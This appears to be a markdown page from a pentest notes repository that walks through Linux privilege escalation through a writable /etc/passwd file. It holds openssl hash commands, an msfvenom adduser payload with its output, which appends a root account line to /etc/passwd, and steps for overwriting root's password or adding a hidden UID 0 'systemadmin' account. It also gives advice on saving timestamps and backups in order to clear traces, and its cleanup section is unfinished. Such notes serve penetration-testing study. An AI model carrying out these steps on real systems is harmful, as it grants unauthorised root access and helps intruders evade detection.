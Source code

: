 # Living off the Land

## 01 - Detect

Weak File Permissions - Writable `/etc/passwd`.

```
$ ls -l /etc/passwd
```

## 02 - Exploit

Generate a new hash password.

```
$ openssl passwd -1 thispass123
```

For older linux systems

```
$ openssl passwd -1 -salt new thispass123
```

You can generate a payload in `msfvenom`. Before you modify the file be sure to modify the shell prompt from `/bin/sh` to `/bin/bash`.

```
$ msfvenom -p cmd/unix/adduser user=root pass=thispass123 rootmethod=SUID checksudoers=false
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
echo 'root:$1$Az$ObbFqO8iNmyzmcavUiQWR1:0:0::/:/bin/sh'>>/etc/passwd
```

> [!NOTE] Collect Timestamps
> Before modifying the `/etc/passwd` file. Take note of the timestamp and keep a backup copy to clear traces ahead of time.

```
$ stat /etc/passwd

$ cp /etc/passwd /tmp/passwd.bak
```

### 2.1 - Overwrite password via hash digest

Replace the letter `x` for the newly generated salt hash for the `/etc/passwd`.

```
root:x:0:0:root:/root:/bin/bash
```

Authenticate as root with the password

```
$ su root
```

### 2.2 - Create User Account

Create a new account as root with the previous generated hashed password. Here's what the format looks like:

> [!INFO]
> Replace `<new_hash>` with the hashed password.

```
systemadmin:<new_hash>:0:0:Sysadmin:/root:/bin/bash
```

## 03 - Cleanup

TODO: Fill in this info

```
$ touch
```

---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)